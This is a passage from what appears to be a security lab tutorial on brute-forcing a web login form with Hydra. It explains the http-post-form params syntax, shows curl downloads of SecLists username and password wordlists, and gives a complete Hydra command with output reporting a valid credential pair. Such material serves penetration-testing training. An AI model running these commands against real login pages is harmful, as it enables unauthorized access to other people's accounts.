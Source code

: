 The `params` string consists of key-value pairs, similar to how data is encoded in a POST request. Each pair represents a field in the login form, with its corresponding value.

- `Form Parameters`: These are the essential fields that hold the username and password. Hydra will dynamically replace placeholders (`^USER^` and `^PASS^`) within these parameters with values from your wordlists.
- `Additional Fields`: If the form includes other hidden fields or tokens (e.g., CSRF tokens), they must also be included in the `params` string. These can have static values or dynamic placeholders if their values change with each request.
- `Success Condition`: This defines the criteria Hydra will use to identify a successful login. It can be an HTTP status code (like `S=302` for a redirect) or the presence or absence of specific text in the server's response (e.g., `F=Invalid credentials` or `S=Welcome`).

Let's apply this to our scenario. We've discovered:

- The form submits data to the root path (`/`).
- The username field is named `username`.
- The password field is named `password`.
- An error message "Invalid credentials" is displayed upon failed login.

Therefore, our `params` string would be:


```bash
/:username=^USER^&password=^PASS^:F=Invalid credentials
```

- `"/"`: The path where the form is submitted.
- `username=^USER^&password=^PASS^`: The form parameters with placeholders for Hydra.
- `F=Invalid credentials`: The failure condition – Hydra will consider a login attempt unsuccessful if it sees this string in the response.

We will be using [top-usernames-shortlist.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt) for the username list, and [2023-200_most_used_passwords.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt) for the password list.

This `params` string is incorporated into the Hydra command as follows. Hydra will systematically substitute `^USER^` and `^PASS^` with values from your wordlists, sending POST requests to the target and analyzing the responses for the specified failure condition. If a login attempt doesn't trigger the "Invalid credentials" message, Hydra will flag it as a potential success, revealing the valid credentials.


```shell-session
# Download wordlists if needed
smoothment@htb[/htb]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
smoothment@htb[/htb]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
# Hydra command
smoothment@htb[/htb]$ hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-05 12:51:14
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3400 login tries (l:17/p:200), ~213 tries per task
[DATA] attacking http-post-form://IP:PORT/:username=^USER^&password=^PASS^:F=Invalid credentials
[5000][http-post-form] host: IP   login: ...   password: ...
[STATUS] attack finished for IP (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-05 12:51:28
```
